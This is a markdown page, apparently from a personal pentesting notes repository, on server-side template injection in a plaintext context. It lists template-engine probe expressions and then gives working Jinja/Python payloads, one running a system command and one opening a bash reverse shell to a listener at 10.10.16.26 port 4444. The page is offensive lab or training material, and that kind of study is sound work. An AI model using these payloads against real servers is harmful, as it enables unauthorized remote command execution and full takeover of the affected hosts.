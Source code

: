 # Plaintext Context SSTI.
## Detection.
The first task we have to do to detect a SSTI vulnerability is to check which is the template that is being used by the server. After that we have two possible ways:
- We extract the server template so we know exactly the programming lenguaje that is being used by the server.
- We have to try the next expressions to realize which one of them are interpreted so we can exactly know which programming lenguage we have to use to deploy our payload.
```javascript
{{7*7}} 
${{7*7}} 
${7*7} 
#{7*7} 
<%= 7*7 %>
```
### Case 1:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/86a348ed-e521-412d-8e41-3a0b3877dce6" width="600"><br />
### Case 2: 
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/bde33c1d-911c-43da-ae03-ddd2b46bdce1" width="500">
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a9136b41-09cb-48fd-bc6d-40848bad3d96" width="500">

After that we can check some resources as 1- [PayloadsAllTheThings-SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) or 2- [Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) to obtain a good payload to use in the target server.

## Payload examples.
Here are some payload examples that in my experience usually work, however, they sometimes may not work properly so we have to check the previous resources to see if we can obtain a useful payload.
### Python.
#### Executing a command:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
#### Obtaining a shell:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.26/4444 0>&1" ').read() }}
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a6610bf1-9f80-454c-9099-3adee2423d49" width="580"><img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0bbe557f-a638-43fe-ac61-b39e563d3e83" width="450">





